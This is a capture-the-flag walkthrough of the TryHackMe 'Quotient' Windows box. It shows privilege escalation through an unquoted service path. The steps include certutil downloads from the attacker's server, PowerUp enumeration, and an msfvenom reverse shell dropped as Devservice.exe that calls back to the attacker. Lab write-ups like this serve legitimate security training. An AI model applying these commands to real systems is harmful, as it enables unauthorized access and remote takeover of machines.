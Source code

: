 # THM - Quotient

#### Ip: 10.10.191.175
#### Name: Quotient
#### Rating: Easy

----------------------------------------------------------------------

quotient.png

This box begins a bit different than most THM machines. Here it appears we already have low-privileged access to the machine and can access it via RDP. It appears our task is to escalate privileges and grab a flag from the administrator's Desktop. 

```text
Grammar is important. Don't believe me? Just see what happens when you forget punctuation.

Access the machine using RDP with the following credentials:

Username: sage

Password: gr33ntHEphgK2&V

Please allow 4 to 5 minutes for the VM to boot.
```

I'll RDP to the target using xfreerdp with the credentials provided:

```text
┌──(ryan㉿kali)-[~/THM/Quotient]
└─$ xfreerdp /u:sage /p:'gr33ntHEphgK2&V' /w:1275 /h:650 /v:10.10.191.175:3389 /cert:ignore
```

Once logged in we can check out what kind of privileges we have on the target by running `whoami /all`

whoami.png

Let's go ahead and transfer over PowerUp.ps1 to help identify a privilege escalation path.

```text
certutil -urlcache -split -f "http://10.6.61.45/PowerUp.ps1" 
```

I'll set up a Python http server on my machine and transfer the file over:

transfer.png

I can then run the script by importing the module and issuing the command `Invoke-AllChecks`

all_checks.png

Nice! PowerUp has identified an unquoted service path we can likely exploit. Because there is a space in between Devservice Files, and it is not wrapped in parenthesis, we should be able to create a malicious file with a reverse shell back to our machine. If we call the file Devservice.exe, it will be executed when we turn on and off the machine or restart the service. 

Let's double check we have write access to the Folder though:

```text
icacls "C:\Program Files\Development Files\ "
```

write_access.png

Great, looks like we can write to the folder. Let's head back to our attacking machine and create a reverse shell using msfvenom:

```text
┌──(ryan㉿kali)-[~/THM/Quotient]
└─$ msfvenom -p windows/shell_reverse_tcp LHOST=10.6.61.45 LPORT=443 -f exe > Devservice.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of exe file: 73802 bytes
```

Cool, lets transfer this over now. 

After setting up a Python web server we can use the handy Certutil to transfer over the reverse shell:

```text
certutil -urlcache -split -f "http://10.6.61.45/Devservice.exe"
```

Once loaded we can confirm the file is where it needs to be:

confirm.png

We can now set up a Netcat listener on port 443 on our attacking machine and restart the target:

```text
shutdown /r /t 0
```

After just a minute or so we will catch a shell in our listener and grab the flag!

flag.png

Thanks for following along!

-Ryan

----------------------------------------------------------------------------